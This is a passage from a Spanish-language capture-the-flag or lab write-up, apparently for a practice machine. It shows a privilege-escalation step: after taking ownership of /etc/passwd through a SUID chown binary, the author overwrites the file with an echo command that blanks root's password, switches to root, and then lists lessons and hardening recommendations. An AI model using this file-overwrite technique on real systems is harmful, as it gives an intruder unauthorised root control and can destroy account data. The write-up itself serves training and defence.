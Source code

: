 Ahora que este archivo nos pertenece procedemos a modificarlo: Ya que no tenemos editores de terminal procedemos a realizar lo siguiente:
```bash
cat /etc/passwd
```

Copiamos su contenido: Ya sin la **( x )** de **root**
```bash
echo "root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
neptuno:x:1001:1001:neptuno,,,:/home/neptuno:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
nasa:x:1002:1002:NASA,,,:/home/nasa:/bin/bash
elite:x:1000:1000:elite,,,:/home/elite:/bin/bash
" > /etc/passwd
```

Ahora solo nos logueamos como **root**
```bash
su root
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@7e69c4a832de:/home/elite# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a descifrar el cintenido de un **JWT**
2. Aprendimos a generar un diccionario personalizado en base a un usuario
3. Aprendimos a realizar fuerza bruta de un usuario obtenido por su JWT

## Recomendaciones de Seguridad
- Restringir el acceso a los **JWT**
- No otorgar privilegios **SUID** al binario **( chown )**